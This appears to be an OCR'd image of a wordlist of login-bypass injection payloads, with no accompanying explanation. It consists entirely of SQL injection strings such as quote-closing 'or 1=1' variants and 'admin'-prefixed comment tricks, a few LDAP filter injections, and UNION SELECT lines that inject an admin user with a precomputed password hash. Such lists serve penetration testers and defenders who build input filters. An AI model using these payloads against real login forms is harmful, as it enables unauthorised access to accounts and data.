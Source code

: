 ```
pwd
admin)(!(&(|
pwd))
admin))(|(|
1234
'-'
' '
'&'
'^'
'*'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or ''*'
"-"
" "
"&"
"^"
"*"
" or ""-"
" or "" "
" or ""&"
" or ""^"
" or ""*"
or true--
" or true--
' or true--
") or true--
') or true--
' or 'x'='x
') or ('x')=('x
')) or (('x'))=(('x
" or "x"="x
") or ("x")=("x
")) or (("x"))=(("x
or 1=1
or 1=1--
or 1=1#
or 1=1/*
admin' --
admin' #
admin'/*
admin' or '1'='1
admin' or '1'='1'--
admin' or '1'='1'#
admin' or '1'='1'/*
admin'or 1=1 or ''='
admin' or 1=1
admin' or 1=1--
admin' or 1=1#
admin' or 1=1/*
admin') or ('1'='1
admin') or ('1'='1'--
admin') or ('1'='1'#
admin') or ('1'='1'/*
admin') or '1'='1
admin') or '1'='1'--
admin') or '1'='1'#
admin') or '1'='1'/*
1234 ' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055
1234 ' AND 1=0 UNION ALL SELECT 'admin', '7110eda4d09e062aa5e4a390b0a572ac0d2c0220
admin" --
```
